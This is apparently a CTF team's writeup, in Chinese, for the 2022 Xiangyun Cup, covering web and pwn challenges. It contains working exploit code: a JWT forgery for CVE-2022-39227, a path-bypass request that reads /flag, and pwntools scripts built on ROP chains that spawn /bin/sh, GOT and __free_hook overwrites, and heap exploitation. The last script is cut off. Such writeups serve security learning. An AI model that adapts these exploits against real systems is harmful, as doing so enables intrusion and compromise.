以下是我们 SU 本次2022 祥云杯 的 writeup ，感谢队里师傅们的辛苦付出！
同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)

<!--more-->
----

以下是我们 SU 本次2022 祥云杯 的 writeup ，感谢队里师傅们的辛苦付出！
同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)

<!-- toc -->


# Web

## FunWEB
注册一个账号，然后登录，发现是jwt，参考cve-2022-39227，拿官方exp构造越权
https://github.com/davedoesdev/python-jwt/blob/88ad9e67c53aa5f7c43ec4aa52ed34b7930068c9/test/vulnerability_vows.py
```python
from datetime import timedelta
from json import loads, dumps
import python_jwt as jwt
from jwcrypto.common import base64url_decode, base64url_encode

topic = "ddd"
[header, payload, signature] = topic.split('.')
parsed_payload = loads(base64url_decode(payload))
parsed_payload['is_admin'] = 1
parsed_payload['username'] = 'admin'
parsed_payload['exp'] = 2000000000
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
print('{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}')
```

生成后就可以开始使用graphql注入，一步步注入获取密码为13Rj2x7VgjCLHIOZSGX0

登录后查看flag

## ezjava

cc4可以直接打，但是不出网，所以得打一个tomcat通用回显


## Rustwaf
先读src，然后使用/readfile 传入/flag可以进一步看到源码

参考https://blog.maple3142.net/2022/08/07/corctf-2022-writeups/#rustshop

```python
POST /readfile HTTP/1.1
Host: eci-2zef45s04koksnpurlze.cloudeci1.ichunqiu.com:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Cache: no-cache
Content-Length: 36
Origin: moz-extension://74b5b769-a8c6-3b45-af82-1453eac308dd
Connection: close

["file:","b","a","/%66%6c%61%67",""]
```

# pwn
## ojs
查找关键词可知，这题魔改自项目：https://github.com/ndreynolds/flathead
比对源码可知，新增了方法`charTo`
逆一下，`str.charTo(offset, val)`代表将字符串`str`偏移`offset`（可正可负）处改为`val`。

可越界写的条件是字符串`str`的长度为`3`，且当`val = 17`的时候，会返回存放`str`自身的堆块地址（结合动态调试）。



由于本题没开`PIE`保护，且`got`表可写：



所以其实任意写的思路很显然：先泄露出`str`自身堆块地址，然后就能用其与某`got`表地址的差值通过`charTo`任意写`got`表了。

泄露`libc`的思路也不难想到，可以将初始长度为`3`的`str`后面的`\x00`不断覆盖掉，这样就能泄露后面内存中的`libc`地址了，这里其实也可以泄露出堆块地址。

不过，由于比赛的时候远程环境十分诡异，导致当时配了几个小时环境都没弄出来远程的环境（打通以后才知道原因应该是由于共享库被放在了题目的同一目录下QAQ），后来就干脆采用了无脑爆破的做法。`str`后面内存区域中`libc`的位置需要爆破一下，得到是`60*8`的偏移处，然后得到了`libc`地址以后，其相对于基地址的偏移也需要爆破一下（这里其实有个技巧，就比如我这里劫持的是`printf`的`got`表，那么可能出问题也就是倒数第二、三个字节，先只改倒数第二个字节，其余保持原先的值不变，如果最后能正常输出，则表示倒数第四位的偏移爆破正确了，倒数第三个字节的爆破也同理这么操作）。

此外，这里应该也可以通过改某个`got`表为`puts@plt`，然后输入某个`got`的地址来泄露`libc`，或者先劫持`bss`段上的`stdin/stdout/stderr`指针为某个`got`表地址，然后比如再改`setvbuf`的`got`表为`puts@plt`，最后劫持执行流到`setvbuf`来泄露。不过这里貌似不太好泄露完再返回了，但是通过这里泄露的值和上述`60*8`的位置泄露的`libc`比对一下就不需要上面的爆破操作了。

最后，选用如下`one_gadget`即可：


```python
from pwn import *
context(os = "linux", arch = "amd64", log_level = "debug")

io = remote("39.106.13.71", 38641)
libc = ELF("./libc-2.27.so")
elf = ELF("./ojs")

io.sendlineafter("> ", 'a = "win";')
io.sendlineafter("> ", 'x = a.charTo(0, 17);')
io.sendlineafter("> ", 'console.log("xxx" + x.toString() + "xxx");')

io.recvline()
io.recvuntil("xxx")
heap_addr = int(io.recvuntil("xxx").strip(b"xxx"))
success("heap_addr:\t" + hex(heap_addr))

io.sendlineafter("> ", 'for(var i = 3; i < 60*8; i++) a.charTo(i, 97);')
io.sendlineafter("> ", 'console.log(a);')

libc_addr = u64(io.recvuntil("\x7f")[-6:].ljust(8, b'\x00'))
success("libc_addr:\t" + hex(libc_addr))
libc_base = libc_addr - 0xd22ce8
success("libc_base:\t" + hex(libc_base))

dis = elf.got['printf'] - heap_addr
og = p64(libc_base + 0xe54f7)
for i in range(6) :
	io.sendlineafter("> ", f'a.charTo({dis+i}, {og[i]});')

io.sendlineafter("> ", 'b = [];')
io.sendlineafter("> ", 'b.push("winmt");')
io.interactive()

```


## protocol
protobuf协议，存在一个strcpy造成栈溢出，通过strcpy末尾补0的性质多次刷0组合，避开00截断的问题。
```python
# Generated by the protocol buffer compiler.  DO NOT EDIT!
# source: ctf.proto

import sys
_b=sys.version_info[0]<3 and (lambda x:x) or (lambda x:x.encode('latin1'))
from google.protobuf import descriptor as _descriptor
from google.protobuf import message as _message
from google.protobuf import reflection as _reflection
from google.protobuf import symbol_database as _symbol_database
# @@protoc_insertion_point(imports)

_sym_db = _symbol_database.Default()


DESCRIPTOR = _descriptor.FileDescriptor(
  name='ctf.proto',
  package='ctf',
  syntax='proto2',
  serialized_options=None,
  serialized_pb=_b('\n\tctf.proto\x12\x03\x63tf\")\n\x03pwn\x12\x10\n\x08username\x18\x01 \x01(\x0c\x12\x10\n\x08password\x18\x02 \x01(\x0c')
)


_PWN = _descriptor.Descriptor(
  name='pwn',
  full_name='ctf.pwn',
  filename=None,
  file=DESCRIPTOR,
  containing_type=None,
  fields=[
    _descriptor.FieldDescriptor(
      name='username', full_name='ctf.pwn.username', index=0,
      number=1, type=12, cpp_type=9, label=1,
      has_default_value=False, default_value=_b(""),
      message_type=None, enum_type=None, containing_type=None,
      is_extension=False, extension_scope=None,
      serialized_options=None, file=DESCRIPTOR),
    _descriptor.FieldDescriptor(
      name='password', full_name='ctf.pwn.password', index=1,
      number=2, type=12, cpp_type=9, label=1,
      has_default_value=False, default_value=_b(""),
      message_type=None, enum_type=None, containing_type=None,
      is_extension=False, extension_scope=None,
      serialized_options=None, file=DESCRIPTOR),
  ],
  extensions=[
  ],
  nested_types=[],
  enum_types=[
  ],
  serialized_options=None,
  is_extendable=False,
  syntax='proto2',
  extension_ranges=[],
  oneofs=[
  ],
  serialized_start=18,
  serialized_end=59,
)

DESCRIPTOR.message_types_by_name['pwn'] = _PWN
_sym_db.RegisterFileDescriptor(DESCRIPTOR)

pwn = _reflection.GeneratedProtocolMessageType('pwn', (_message.Message,), dict(
  DESCRIPTOR = _PWN,
  __module__ = 'ctf_pb2'
  # @@protoc_insertion_point(class_scope:ctf.pwn)
  ))
_sym_db.RegisterMessage(pwn)


# @@protoc_insertion_point(module_scope)

import ctf_pb2
from pwn import *
context(os = "linux", arch = "amd64", log_level = "debug")

#io = process("./protocol")
io = remote("101.201.71.136", 38494)

zero_list = []

def gen(username, password):
    result = ctf_pb2.pwn()
    result.username = username
    result.password = password
    return result.SerializeToString()

pop_rax_ret = 0x5bdb8a
pop_rdi_ret = 0x404982
pop_rsi_ret = 0x588bbe
pop_rdx_ret = 0x40454f
syscall_ret = 0x68f0a4
bin_sh_addr = 0x81A380

payload = b'a'*0x148 + p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(bin_sh_addr) + p64(pop_rdx_ret) + p64(0x10) + p64(pop_rax_ret) + p64(0) + p64(syscall_ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_ret) + p64(0) + p64(pop_rax_ret) + p64(59) + p64(syscall_ret)

for i in range(len(payload)) :
	if payload[i] == 0 :
		zero_list.append(i)
		payload = payload[0:i] + b'a' + payload[i+1:]

zero_list = zero_list[::-1]

login = gen(payload, b'winmt')
io.sendafter("Login: ", login)

for i in zero_list :
	payload = payload[0:i]
	login = gen(payload, b'winmt')
	io.sendafter("Login: ", login)

login = gen(b'admin', b'admin')
io.sendafter("Login: ", login)
io.send(b'/bin/sh\x00')
io.interactive()
```
## queue
队列结构体
```
struct elem
{
  _QWORD buf_array_ptr;
  _QWORD sub_buf_max;
  _QWORD pBuffStart;
  _QWORD a3;
  _QWORD pBuffLast;
  char **sub_bufs;
  _QWORD pBuffEnd;
  _QWORD a7;
  _QWORD a8;
  _QWORD sub_buf_last;
};
```
666功能可以直接修改结构体
伪造结构体再通过其他功能可以实现任意地址读写
首先需要泄露一个地址
覆盖pBuffStart, 爆破一个十六进制位到有堆地址的地方
泄露堆地址
然后申请几个再free填tcache, 在堆上制造libc地址
构造结构体pBuffStart指向含libc地址处
泄露libc地址
然后伪造结构体在__free_hook处
用程序edit单字节循环写入


exp
```python
from pwn import *
from colorama import Fore
from colorama import Style
import inspect
from argparse import ArgumentParser
parser = ArgumentParser()
parser.add_argument("--elf", default="./queue")
parser.add_argument("--libc", default="./libc-2.27.so")
parser.add_argument("--arch", default="amd64")
parser.add_argument("--remote")
args = parser.parse_args()
 
context(arch=args.arch,log_level='debug')
 
def retrieve_name(var):
    callers_local_vars = inspect.currentframe().f_back.f_back.f_locals.items()
    return [var_name for var_name, var_val in callers_local_vars if var_val is var]
def logvar(var):
    log.debug(f'{Fore.RED}{retrieve_name(var)[0]} : {var:#x}{Style.RESET_ALL}')
    return
script = ''
def rbt_bpt(offset):
    global script
    script += f'b * $rebase({offset:#x})\n'
def bpt(addr):
    global script
    script += f'b * {addr:#x}\n'
def dbg():
    gdb.attach(sh,script)
    pause()
 
prompt = b'Queue Management: '
def cmd(choice):
    sh.sendlineafter(prompt,str(choice).encode())
 
def add(size):
    cmd(1)
    sh.sendlineafter(b'Size: ',str(size).encode())
    return
def edit(buf_id,idx,val):
    cmd(2)
    sh.sendlineafter(b'Index: ',str(buf_id).encode())
    sh.sendlineafter(b'Value idx: ',str(idx).encode())
    sh.sendlineafter(b'Value: ',str(val).encode())
    return
def show(buf_id,num):
    cmd(3)
    sh.sendlineafter(b'Index: ',str(buf_id).encode())
    sh.sendlineafter(b'Num: ',str(num).encode())
    return
def dele():
    cmd(4)
    return
def backdoor(buf_id,ctt):
    cmd(666)
    sh.sendlineafter(b'Index: ',str(buf_id).encode())
    sh.sendafter(b'Content: ',ctt)
    return
 
def edit_qword(buf_id,off,val):
    for i in range(8):
        byte = val & 0xff
        edit(buf_id,off+i,byte)
        val >>= 8
 
rbt_bpt(0x1688)
rbt_bpt(0x16b5) 
 
def leak_num():
    val = 0
    sh.recvuntil(b'Content: ')
    for i in range(8):
        num = int(sh.recvline().strip(),16)
        val |= num << (8*i)
    return val
 
def pwn():
    add(0x100)
    backdoor(0,p64(0)*2 + b'\x88\x5e')
    show(0,0x8)
    heap_addr = leak_num()
    if heap_addr == 0:
        raise EOFError
    for i in range(5):
        add(0x100)
    for i in range(4):
        dele()
    backdoor(0,p64(0)*2 + p64(heap_addr + 0x1a50)*2)
    show(0,0x8)
    libc_base = leak_num() - 0x3ebca0
    logvar(heap_addr)
    logvar(libc_base)
 
    edit_qword(1,0,u64(b'/bin/sh\x00'))
    libc = ELF(args.libc,checksec=False)
    libc.address = libc_base
    payload = flat([
        0,
        0,
        libc.sym['__free_hook'],
        libc.sym['__free_hook'],
        libc.sym['__free_hook']+0x200,
        heap_addr,
        libc.sym['__free_hook']+0x200,
        libc.sym['__free_hook']+0x200,
        libc.sym['__free_hook']+0x200,
        heap_addr+8
    ])
    backdoor(0,payload)
    edit_qword(0,0,libc.sym['system'])
    # dbg()
    dele()
 
    
while True:
    try:
        # sh = process([args.elf])
        sh = remote('39.106.13.71' ,'31586')
        pwn()
        sh.interactive()
    except EOFError:
        sh.close()

```

##  unexploitable

利用思路：


因为程序仅仅有一个read函数，没有canary，而且溢出的字节非常大，所以本题可以随便溢，但问题是没有后门函数，并且没有输出函数。在开了PIE的情况下，很多花活是没法用的。

通过调试发现，在main函数返回到libc_start_main函数的时候，该地址是一个libc地址，而让执行流跳到一个地址就能get shell的地址只有one_gadget。通过用set命令更改内存的值为one_gadget，发现第一个one_gadget就能用(如下)
于是思路就是将libc start main的后三字节，改为one_gadget地址(由于libc地址后三位是固定的，所以我们需要爆破前三位，概率为1/4096)。

但如果我们单纯的填垃圾数据，然后溢出篡改的话，情况如下

即使我们溢出篡改了libc_start_main,也会返回到它上面的地址，所以我们需要让执行流滑到libc_start_main上，开了PIE保护，我们无法直接获取ret指令的地址，但是vsyscall的地址始终是固定的，它可以当做ret指令来用。
所以我们把上图的0xdeadbeef改成vsyscall的地址即可，执行到vsyscall的时候就可以往下滑到爆破成功的one_gadget，从而获取shell。
EXP

```python
from pwn import *
#context.log_level='debug'
context.arch='amd64'
context.log_level == "debug"
def exp():
    payload = p64(0xdeadbeef) * 3 + p64(0xffffffffff600000) * 2 + b'\xa5\x22\x06'
    #debug(p)
    p.send(payload)
    p.sendline('cat flag')
    a=p.recv(timeout=0.5)
    if not a:
        return
    p.interactive()

while 1:
    try:
        p = remote("39.106.13.71", 14305)
        exp()
    except EOFError:
        p.close()
    p.close()
```

## sandboxheap
沙箱分析

此处为0才不会进入if，否则就走ptrace禁用了。
初始化bss段这里全为1,当我们传进来的参数rdi为3的时候，则可以进入两个if(如下)，而switch case想进这里的话，需要让rax为0x2710,因此我们只要保证rop链执行的时候，先让rdi为3，rax为0x2710，然后调用syscall，自定义一个白名单，就可以去打orw了。
漏洞所在：

在edit函数里，input函数(函数已重命名)的参数有个+1，所以判断这里是存在个溢出的。
然后input函数里面是这样的
说实话这个我没太看懂，不过根据调试和SU其他师傅的提示，感觉这里的大概意思就是说，我们输入的一个字节只取末尾一个比特，而八个字节就会取出来八个比特，这取出来的八个比特才表示出了一个字节。在以前我们想发送p64()打包后的数据，仅仅只需要发送八字节，但是在这题里，我们需要用64个字节来表示一个八字节的地址。
举个例子，我们原本要往内存里写一个地址为0xdeadbeef，以前的话，我们使用p64(0xdeadbeef)即可，但是这道题的话，我们使用下面的部分才能达到同样的效果
(bin(0xdeadbeef)[2:].rjust(64,'\x00').encode()[::-1])

重新回到漏洞上面，这道题通过调试可以发现是溢出了一个比特，其实跟off by null的思路一样，都是去溢出然后篡改堆块的prev_inuse位，然后去打一个堆块合并。但是这道题还有一个难点就是有沙箱保护，通过分析沙箱规则，我们需要打一条rop链。因此对应的策略就是用setcontext来改变寄存器的值，从而将执行流劫持到rop链上

利用思路：
由于我们需要打堆块合并，所以需要让合并的堆块释放掉能够进入unsorted bin，因此第一件事是先填满tcache bin。接着去打堆块合并,脚本如下：
```
for i in range(11):
    add(i,0x88)
for i in range(7):
    delete(i)    
​
delete(7)#merge chunk   
payload=b'1'*(0x80*8)+b'00000100'+b'10000000'+b'00000000'*6+b'00000000'
​
edit(8,payload)
debug(p,'pie',0xED6,0xEE2,0xEEE,0xEFA,0xC9F,0xBA7)
delete(9)#堆块合并
```
接下来去泄露堆地址和libc地址，大致思路就是做堆块重叠，让一块被释放掉的内存落在一个正在使用的堆块中，从而执行show函数完成泄露libc和堆地址。
```
for i in range(7):
    add(i,0x80)
​
add(12,0xc0)
show(12)
leak_libc=recv_libc()
libc_base=leak_libc-0x3ebe40
log_addr('libc_base')
free_hook=libc_base+libc.symbols['__free_hook']
context_addr=libc_base+libc.symbols['setcontext']+53
log_addr('free_hook')
delete(8)
​
payload=b'1'*(0x98*8)
edit(12,payload)
​
show(12)
p.recvuntil(0x98*"\xff")
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
log_addr('heap_addr')
```
最后去打一个tcache poisoning,将free_hook申请出来，然后写入setcontext+53的地址，提前在堆块中布置好各个寄存器的值，最后去释放掉该堆块。即可控制各个寄存器，从而去执行系统调用read。将rop链读到执行流上，从而执行rop链(orw)读出flag。
```
from pwn import *
context(os = "linux", arch = "amd64", log_level = "debug")
#io = process(["./sandbox", "./sandboxheap"])
io = remote("101.201.71.136", 12795)
elf = ELF("./sandboxheap")
libc = ELF("./libc-2.27.so")
def add(idx, size):
    io.sendlineafter("Your choice: ", "1")
    io.sendlineafter("Index: ", str(idx))
    io.sendlineafter("Size: ", str(size))
def edit(idx, content):
    io.sendlineafter("Your choice: ", "2")
    io.sendlineafter("Index: ", str(idx))
    io.sendafter("Content: ", content)
def show(idx):
    io.sendlineafter("Your choice: ", "3")
    io.sendlineafter("Index: ", str(idx))
def delete(idx):
    io.sendlineafter("Your choice: ", "4")
    io.sendlineafter("Index: ", str(idx))
def convert(st):
    tar=""
    for i in st:
        b=(bin(i)[2:].rjust(8,'\x00')[::-1])
        tar+=b
    return tar
for i in range(11):
    add(i, 0x88)
for i in range(7):
    delete(i)
delete(7)
edit(8, b'1' * 0x80 * 8 + b'00000100' + \
     b'10000000' + b'00000000' * 6 + b'00000000')
delete(9)
for i in range(7):
    add(i, 0x88)
add(7, 0x88)
show(8)
libc_base = u64(io.recvuntil("\x7f")[-6:].ljust(8, b'\x00')) - 0x3ebca0
success("libc_base:\t" + hex(libc_base))
add(9, 0x110)
add(13, 0x110)
